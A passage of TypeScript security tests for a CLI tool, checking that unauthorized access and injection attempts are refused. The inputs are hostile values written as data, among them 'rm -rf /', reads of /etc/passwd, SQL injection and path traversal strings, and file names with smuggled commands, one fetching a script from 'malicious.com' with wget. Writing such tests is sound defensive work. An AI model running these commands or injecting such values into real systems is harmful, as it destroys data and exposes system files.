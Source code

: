 ```typescript
      // Test unauthorized access attempts
      const accessAttempts = [
        () => securityBoundary.attemptFileAccess('/etc/passwd', unauthorizedUser),
        () => securityBoundary.attemptConfigModification({ malicious: 'config' }, unauthorizedUser),
        () => securityBoundary.attemptAuditLogAccess(unauthorizedUser),
        () => securityBoundary.attemptSystemCommand('rm -rf /', unauthorizedUser)
      ];
      
      for (const attempt of accessAttempts) {
        const result = await attempt();
        expect(result.allowed).toBe(false);
        expect(result.securityViolation).toBe(true);
      }
    });
    
    test('should detect and prevent injection attacks', async () => {
      const injectionDetector = new InjectionDetector();
      const cli = new EnhancedCLI();
      
      // Test SQL injection attempts
      const sqlInjectionAttempts = [
        'test.pdf; DROP TABLE users;',
        'document.pdf\' OR 1=1--',
        '../../../etc/passwd'
      ];
      
      for (const maliciousInput of sqlInjectionAttempts) {
        const result = await cli.execute(['qms:analyze', maliciousInput]);
        expect(result.success).toBe(false);
        expect(result.error).toContain('security violation');
      }
      
      // Test command injection attempts
      const commandInjectionAttempts = [
        'test.pdf && rm -rf /',
        'document.pdf | cat /etc/passwd',
        'file.pdf; wget malicious.com/script.sh'
      ];
      
      for (const maliciousCommand of commandInjectionAttempts) {
        const result = await cli.execute(['qms:analyze', maliciousCommand]);
        expect(result.success).toBe(false);
        expect(result.securityViolation).toBe(true);
      }
    });
  });
});
```

### 4. Compatibility and Regression Testing
